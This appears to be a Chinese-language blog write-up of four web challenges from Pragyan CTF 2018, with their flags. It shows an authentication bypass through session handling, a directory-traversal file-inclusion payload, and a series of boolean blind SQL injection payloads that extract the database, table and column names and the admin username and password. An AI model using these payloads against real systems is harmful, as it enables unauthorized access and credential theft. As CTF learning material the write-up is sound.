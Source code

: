 ```yaml
---
layout: post
title: "pragyan ctf writeup"
date: 2018-03-04 23：40
categories: jekyll update
---
```


## 前言
&emsp;&emsp;这场CTF由于时间紧张，所以只做了web题，比赛中也只做出两题，其余两题为比赛结束后参考writeup进行复现并记录。

### 1、web1：Unfinished business
<div align="center">
    <img src="/images/posts/pragyan/1.png" >  
</div>
&emsp;&emsp;自己做的时候没做出来，用的是burp suite抓包，但没看出什么东西，然后再看别人的writeup复现。
登陆的时候勾选admin，然后用`owasp zap`抓包看一下，也正是这个工具在这题中运用得比较好。很容易就看到了flag。
<div align="center">
    <img src="/images/posts/pragyan/2.png" >  
</div>
&emsp;&emsp;所以flag：pctf{y0u=Sh0Uldn'1/h4v3*s33n,1his.:)}

### 2、web2：Authenticate your way to admin
<div align="center">
    <img src="/images/posts/pragyan/3.png" >  
</div>
&emsp;&emsp;关键点在于它在`还没验证账号是否正确`的情况下将identifier存入$_SESSION[‘id’]。
<div align="center">
    <img src="/images/posts/pragyan/4.png" >  
</div>
&emsp;&emsp;所以，第一次我们用正常的账号密码登陆以绕过homepage.php的登陆检验。
<div align="center">
    <img src="/images/posts/pragyan/5.png" >  
</div>
&emsp;&emsp;然后第二次我们用admin登陆，这里虽然会`返回错误`，但在上面已经提到，它是在`验证前`就更新了$_SESSION[‘id’]。
<div align="center">
    <img src="/images/posts/pragyan/6.png" >  
</div>
&emsp;&emsp;所以，再次刷新原来登陆后的页面时，你的$_SESSION[‘id’]就被替换成了`admin`。最终拿到flag。
<div align="center">
    <img src="/images/posts/pragyan/7.png" >  
</div>
&emsp;&emsp;所以flag：pctf{4u1h3ntic4Ti0n.4nd~4u1horiz4ti0n_diff3r}

### 3、web3：El33t Articles Hub
&emsp;&emsp;这道题比赛时也没解出来，现在拿着writeup复现一下。
<div align="center">
    <img src="/images/posts/pragyan/8.png" >  
</div>
&emsp;&emsp;上来看到这个猜测十有八九就是`文件包含`，但将常见的文件包含跟绕过试了一遍都`没有`结果。所以这道题就进展不下去。
&emsp;&emsp;看到writeup后才发现关键点不在这个url，在查看`网页源代码`的时候会发现两个`带下划线`的url，`经自己不成熟总结，一般这样的链接都有猫腻。。。`而且可以发现标题的图标也一直在变，仿佛在提醒你。。。
<div align="center">
    <img src="/images/posts/pragyan/9.png" >  
</div>
&emsp;&emsp;做题的时候直接访问是一张正常的图片，但将`id=x`代入，并且查看源代码时，你就会发现hint。
<div align="center">
    <img src="/images/posts/pragyan/10.png" >  
</div>
&emsp;&emsp;发现这又是一个文件包含，并且能包含php。所以查看index.php的代码。
<div align="center">
    <img src="/images/posts/pragyan/11.png" >  
</div>
&emsp;&emsp;helpers.php的代码
<div align="center">
    <img src="/images/posts/pragyan/12.png" >  
</div>
&emsp;&emsp;此时就能清晰的看到flag的位置，但因为id这里`不能包含txt文件`，所以只能回到file包含里。然后构造payload：
```shell
.....///secret/./flag_7258689d608c0e2e6a90c33c44409f9d
```
<div align="center">
    <img src="/images/posts/pragyan/13.png" >  
</div>
&emsp;&emsp;故flag：pctf{1h3-v41id41i0n_SuCk3d~r34l-baD}

### 4、web4：Animal Spy Database
```
Poc：1' or 1=1 -- +（返回正确）；1' or 1=2 -- +（返回错误）
```
&emsp;&emsp;说明有注入，再进一步可以测出是`盲注`。

&emsp;&emsp;其实，你测到后面会发现，题干中已经给了你表名，字段了。
<div align="center">
    <img src="/images/posts/pragyan/14.png" >  
</div>
&emsp;&emsp;当然，你也可以用
```
查询数据库长度：
1' or (length(database()))=12 -- +
数据库：
1' or (ascii(substr(database(),1,1)))>100 -- +
表名：
1' or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100 -- +
字段：
1' or (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)))>100 -- +
```
&emsp;&emsp;所以最终的Payload：
```
1' or (ascii(substr(( select username from users limit 0,1),1,1)))>68 -- +
```
&emsp;&emsp;注入出username字段的值就是`admin`。

&emsp;&emsp;再将password注入出来，Payload：
```
1' or (ascii(substr(( select password from users limit 0,1),1,1)))>68 -- +
```
&emsp;&emsp;所以最终flag：pctf{L31's~@Ll_h4il-1h3-c4T_Qu33n.?}


